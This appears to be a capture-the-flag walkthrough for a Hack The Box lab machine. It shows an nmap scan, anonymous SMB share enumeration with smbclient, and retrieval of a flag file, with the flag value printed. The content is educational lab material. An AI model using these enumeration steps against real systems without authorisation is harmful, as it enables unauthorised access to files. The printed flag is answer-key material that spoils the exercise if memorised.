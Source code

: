 Like always with the IP we got we start from the nmap scan.

```bash
nmap -sV 10.129.1.12
```

And got the following result:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-01-30 23:28 -03
Nmap scan report for 10.129.1.12 (10.129.1.12)
Host is up (0.20s latency).
Not shown: 969 closed ports, 28 filtered ports
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.53 seconds
```

Make sure to have `smbclient` installed, if not install it with `sudo apt install smbclient`

With this information we can start to enumerate the SMB service with the following command:

```bash
smbclient -L <target-ip>
```

Here since we don't have a remote user we will be prompted and we just press enter.

```
user in ~ λ smbclient -L 10.129.1.12              
Password for [WORKGROUP\user]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
SMB1 disabled -- no workgroup available
```

Now we now there is 4 shares available to us, let's try to access them.

```bash
smbclient \\\\<target-ip>\\<share-name>
```

For example if don't have access we would see something like this

```
user in ~ λ smbclient \\\\10.129.1.12\\ADMIN$       
Password for [WORKGROUP\user]:
tree connect failed: NT_STATUS_ACCESS_DENIED
```

In this particular machine after testing all of them we find that `WorkShares` is the only one we have access to.

```
user in ~ λ smbclient \\\\10.129.1.12\\WorkShares
Password for [WORKGROUP\user]:
Try "help" to get a list of possible commands.
smb: \>
```

Here we could type `help` to see the available commands, but we will just use `ls` to see the files in the share.

```
smb: \> ls
  .                                   D        0  Mon Mar 29 05:22:01 2021
  ..                                  D        0  Mon Mar 29 05:22:01 2021
  Amy.J                               D        0  Mon Mar 29 06:08:24 2021
  James.P                             D        0  Thu Jun  3 05:38:03 2021

                5114111 blocks of size 4096. 1733570 blocks available
smb: \>
```

After checking both folders we find that the flag is there

```
smb: \> ls Amy.J\
  .                                   D        0  Mon Mar 29 06:08:24 2021
  ..                                  D        0  Mon Mar 29 06:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 08:00:37 2021

                5114111 blocks of size 4096. 1733511 blocks available
smb: \> ls James.P\
  .                                   D        0  Thu Jun  3 05:38:03 2021
  ..                                  D        0  Thu Jun  3 05:38:03 2021
  flag.txt                            A       32  Mon Mar 29 06:26:57 2021

                5114111 blocks of size 4096. 1733591 blocks available
smb: \>
```

```
get James.P/flag.txt
```

```
smb: \> get James.P\flag.txt 
getting file \James.P\flag.txt of size 32 as James.P\flag.txt (0,0 KiloBytes/sec) (average 0,0 KiloBytes/sec)
smb: \> exit
user in ~ λ ls
    Apps Desktop Documents Downloads 'James.P\flag.txt' Music Pictures Public Templates Videos
user in ~ λ cat James.P\\flag.txt 
5f61c10dffbc77a704d76016a22f1664                                          
```

And that's it, we got the flag.

https://www.hackthebox.com/achievement/machine/834305/395